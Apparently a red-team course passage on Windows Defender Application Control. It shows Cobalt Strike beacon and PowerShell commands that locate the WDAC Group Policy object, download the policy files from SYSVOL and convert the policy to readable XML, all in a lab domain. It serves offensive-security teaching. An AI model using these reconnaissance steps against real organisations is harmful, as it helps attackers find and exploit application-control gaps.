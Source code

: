 WDAC is a Windows technology designed to control which drivers and applications are allowed to run on a machine.  It sounds a lot like AppLocker, but with a few key differences.  The most significant of which is that Microsoft recognises WDAC as an [official security boundary](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria).  This means that WDAC is substantially more robust and applicable bypasses are actually fixed (and a CVE often issued to the finder).

The term "WDAC bypass" is used herein, but this is disingenuous since we're never actually bypassing WDAC at a fundamental level.  Instead, we are finding weaknesses in the policy that organisations deploy.

WDAC policies are first defined in XML format - Microsoft ships several base policies which can be found under `C:\Windows\schemas\CodeIntegrity\ExamplePolicies`.  Multiple policies can be merged into a single policy, which is then packaged into a `.p7b` file and pushed out via GPO or another management platform such as Intune.  If you can find the GPO responsible for pushing that policy, you can find where it lives.

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-DomainGPO -Name *WDAC* -Properties GpcFileSysPath

gpcfilesyspath                                                                              
--------------                                                                              
\\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}

beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol (448 bytes)
[*] download of Registry.pol is complete

PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : DeployConfigCIPolicy
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : ConfigCIPolicyFilePath
ValueType   : REG_SZ
ValueLength : 116
ValueData   : \\redteamops2.local\SYSVOL\redteamops2.local\SIPolicy.p7b

  

The **ValueData** field contains the location of the WDAC policy itself.  This is usually somewhere like a central file share, so that machines can read the policy in order to apply it.

beacon> download \\redteamops2.local\SYSVOL\redteamops2.local\SIPolicy.p7b
[*] started download of \\redteamops2.local\SYSVOL\redteamops2.local\SIPolicy.p7b (2360 bytes)
[*] download of SIPolicy.p7b is complete

  

  If you have filesystem access to a machine that has the WDAC policy applied, you can grab the p7b from `C:\Windows\System32\CodeIntegrity`.

  

[Matt Graeber](https://twitter.com/mattifestation) wrote [CIPolicyParser.ps1](https://gist.github.com/mattifestation/92e545bf1ee5b68eeb71d254cec2f78e), which can reverse this binary format back into XML for easy reading.

PS C:\Users\Administrator\Desktop> ipmo C:\Tools\CIPolicyParser.ps1
PS C:\Users\Administrator\Desktop> ConvertTo-CIPolicy -BinaryFilePath .\SIPolicy.p7b -XmlFilePath policy.xml

  

WDAC allows for very granular control when it comes to trusting an application.  The most commonly used ones include:

-   Hash - allows binaries to run based on their hash values.
-   FileName - allows binaries to run based on their original filename.
-   FilePath - allows binaries to run from specific file path locations.
-   Publisher - allows binaries to run that are signed by a particular CA.

